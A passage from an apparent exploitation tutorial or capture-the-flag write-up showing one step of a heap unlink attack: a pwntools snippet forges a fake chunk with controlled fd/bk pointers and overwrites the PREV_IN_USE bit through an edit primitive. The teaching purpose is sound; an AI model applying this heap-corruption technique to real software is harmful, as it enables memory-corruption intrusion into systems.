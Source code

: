 Now we will create a _fake chunk_. The fake size we give it will be the difference between the start of our fake data and the next consecutive chunk. In this case, that is `0x90` - as you see from the image, the difference between chunks _4_ and _5_ is `0xa0`, so if we remove the metadata the fake chunk is `0x90`. We'll also overwrite `PREV_IN_USE` to trick it into thinking it's free.

```python
fake_chunk = flat(
    0x0,                # fake prev_size (of fake chunk)
    0x91,               # fake size
    CHUNKLIST,          # fd (controlled)
    CHUNKLIST + 8,      # bk (controlled)
    b'A' * 0x70,        # pad to -8 off max size so we can fake prev_size
    0x90                # fake prev_size
)
fake_chunk += p16(0xa0) # overwrite PREV_IN_USE

edit(3, fake_chunk)
```

And if we send this all off, we can see it worked perfectly:

![](<../../../.gitbook/assets/image (25).png>)

